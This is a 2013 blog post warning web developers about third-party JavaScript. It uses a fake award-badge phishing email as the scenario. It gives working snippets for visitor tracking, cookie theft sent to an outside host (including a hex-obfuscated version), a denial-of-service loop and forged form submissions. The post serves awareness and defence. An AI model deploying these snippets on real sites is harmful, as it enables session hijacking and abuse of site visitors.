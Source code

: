 ```yaml
---
title: 'The very bad things that Javascript can do: Part 2'
date: 2013-04-16
tag:
- html
- javascript
- security
---
```

In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we'll run through a few scenarios.

<!--more-->

In our scenarios here, we're going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013's best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:

    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious 
    Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  
    It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  
    We're already linking to your website - but that doesn't complete the circle.  
    If you use the banner in the code below, you not only show off your reputation 
    this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com

And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we're going to use the following banner:

[![Award](/uploads/2013/award.png)](/uploads/2013/award.png){: .inline}{: .thumbnail}

Now, lets run through some scenarios.

### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

```html
<a href="http://awardsite.com">
  <img src="http://awardsite.com/award.png?compress=134">
</a>
```

Let's break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress' which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

```apache
<Files award.png>
  ForceType application/x-httpd-php
</Files>
```

Then, the **`award.png`** file has the following PHP. (Please note, I've not went to the trouble to make sure this handles EVERY scenario... this is meant as a proof of concept).

Note: `updateSite()` is a function that writes an entry to the database using that siteID. I didn't think it was important enough to show that code too.

```php
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
  $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
  updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
```

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there's a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn't expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var i = new Image();
    i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
    document.getElementById('awardlink').appendChild(i);
  </script>
</a>
```

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie' – so we can obscure this a bit. Try this:

```javascript
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
```    
        
Of course, it can look bad for our trained eyes... but for those who don't “work on computers” they'll just think its code they don't understand and use it.

**For future examples, I won't show how to obfuscate the code. But that would be one of the steps.**

### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn't be that hard.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'http://awardsite.com/award.png';
    var i = new Image();
    document.getElementById('awardlink').appendChild(i);
    setTimeout(function() {
      for (var x = 0; x < 1000; x++) {
        var j = new Image();
        j.style = 'display: none';
        j.src = 'http://victimsite.com/someasset.php';
        document.body.appendChild(j);
      }
    }, 3000);
  </script>
</a>
```

In this case, the image is added successfully. However, the `setTimeout()` method executes a different function 3 seconds later. The delay is so that the user won't notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image' is created 1000 times and appended to the document – with a hidden display (so the visitor can't tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the `Image()` object to load a fake form submission with GET parameters. However, it doesn't stop us from submitting a form that MAY be on the current page.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'award.png';
    var i = new Image();
    i.src = s;
    document.getElementById('awardlink').appendChild(i);
    var f = document.getElementById('formID');
    f[0].value = 'Some Nefarious Input';
    f.submit();
  </script>
</a>
```

This code goes and gets the form with an ID of `formID` and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if... the form doesn't have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

```javascript
var f = document.forms[1];
```

OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they're doing – of course they're going to report it. Well, we can force the form to be ajax, and then submit.

```javascript
f.onsubmit = function() {
  //code to create xmlhttprequest and send form as ajax
};
f.submit();
```

### So what does all this mean?

Now that you've seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.
